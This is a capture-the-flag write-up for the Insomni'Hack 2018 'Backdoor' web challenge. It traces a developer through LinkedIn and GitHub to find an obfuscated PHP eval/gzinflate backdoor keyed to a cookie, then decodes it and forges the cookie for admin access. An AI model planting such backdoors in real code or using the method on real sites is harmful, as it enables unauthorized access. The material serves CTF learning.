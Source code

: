 ```yaml
---
title: Insomni'Hack 2018 - Backdoor
layout: writeup
authors: Guillaume_Lopes
ctf_url: https://insomnihack.ch/
---
```

Solves: 25 / Points: 124


## Challenge description
Hello shady hacker, I represent a web development company trying to grow in Geneva, but unfortunately we're running into a lot of competition. One company in particular is stealing all our clients and we'd like you to hack them to obliterate their reputation and show that they are terrible developers. Here is one of their websites. Can you break in and prove that they suck?



## Challenge resolution


When connecting to the webapp http://bd.insomniack.ch, we can found in the HTML code the name of the developer:

* James Karsmith

After some Googling, we finally found a Linkedin account from a web developer working in Geneve with the same name:
![James Linkedin Profile](/assets/james.png)

When looking on a GitHub, we can find only one user with the company name:

* https://github.com/WackyWebWizards

In the repository, we can see the developer created a backdoor in order to login as shown in the code below:
```php
<?php
if(isset($_COOKIE['wwwadmin'])) {
        $code="y0zTSK/KzEvLSSxJ1UhKLE41M4lPSU3OT0nVUIl39vf39nSNVi8vL09Myc3MU4/V1FSwtbVVUCo2Ti4yLolPSkzOTjEwKIovyY9PzMmJL0hMTy1WVNJUqObiVIkPdg0O9vT3i1bPTFGPVbBVMLRGEYUaCZGoBQA=";
        eval(gzinflate(base64_decode($code)));
}
?>
```

In order to retrieve the value of $code variable, we just modified `eval` function with `echo` and we obtained the following code:
```php
if(gzinflate(base64_decode($_COOKIE['wwwadmin'])) === "s3cr3t_backd00r_to_all_pages!") {
	$_SESSION['id'] = 1;
	$_SESSION['admin'] = 1;
}
```

So to sump up, in order to obtain admin access, we need to have a cookie name `wwwadmin` with the value "s3cr3t_backd00r_to_all_pages!" compressed with Gzip and encoded in base64.
It's just one line of PHP:
```php
echo base64_encode(gzdeflate("s3cr3t_backd00r_to_all_pages!"));
```

At the end we obtain the flag!!!

![Flag](/assets/backdoor-flag.png)
